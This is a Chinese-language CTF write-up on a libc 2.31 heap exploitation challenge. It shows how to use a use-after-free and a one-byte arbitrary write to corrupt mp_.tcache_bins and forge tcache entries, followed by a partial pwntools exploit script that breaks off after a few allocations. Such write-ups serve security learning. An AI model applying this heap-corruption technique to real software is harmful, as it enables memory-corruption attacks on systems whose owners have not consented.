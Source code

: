 DASCTF X HDCTF 2024 最喜欢的一集
--------------------------

- 题目分析 
    1. libc2.31
    2. add函数只允许有6个堆块，同时申请的大小只能在largebin的大小。edit,show只有一次机会，delete第一次有uaf,后面都没有。最后有一个magic函数可以任意地址写一个字节
- 做题过程 
    1. 第一思路当然是走IO路线，毕竟都是largebin的大小，而且有一次edit，但是实际操作发现总会少一个堆块

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-3dd3545897f1ac674115084125268058d4f8492e.png)

2. 然后就是想这不是libc2.31，为什么不打free\_hook，但是没有tcache怎么任意地址申请，突然想到可以打mp*结构体，利用magic修改mp*.tcache\_bins
3. 然后打mp\_结构体要控制heapbase+0x290后面堆块区域来伪造tcache来得到对应的任意地址，这里可以通过题目中的name输入来进行伪造 
    - exp

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/pwn")
# p=remote('120.46.59.242',2060)
elf = ELF("/home/zp9080/PWN/pwn")
libc=elf.libc  
def dbg():
    gdb.attach(p,'b *$rebase(0x1D98)')  
    pause()

menu="Please input your choice: \n"
def add(name,size,cont):
    p.sendlineafter(menu,str(1))
    p.sendlineafter("Please leave your name: ",name)
    p.sendlineafter("Please input the length of your desciption: ",str(size))
    p.sendlineafter("Please input the content of your desciption: ",cont)

def delete(idx):
    p.sendlineafter(menu,str(2))
    p.sendlineafter("Please input the index of the people: ",str(idx))

def edit(idx,name,cont):
    p.sendlineafter(menu,str(3))
    p.sendlineafter("Please input the index of the people: ",str(idx))
    p.sendlineafter("Please input the name of the people: ",name)
    p.sendline(cont)

def show(idx):
    p.sendlineafter(menu,str(4))
    p.sendlineafter("Please input the index of the people: ",str(idx))

def magic(addr,byte):
    p.sendlineafter(menu,str(255))
    p.sendlineafter("Maybe Do you like IU?\n",'y')
    p.sendafter("Give you a reward!\n",addr)
    p.sendline(byte)

add(b'a',0x510,b'b') #0
add(b'a',0x500,b'b') #1
add(b'a',0x500,b'b') #2
add(b'a',0x530,b'b') #3
```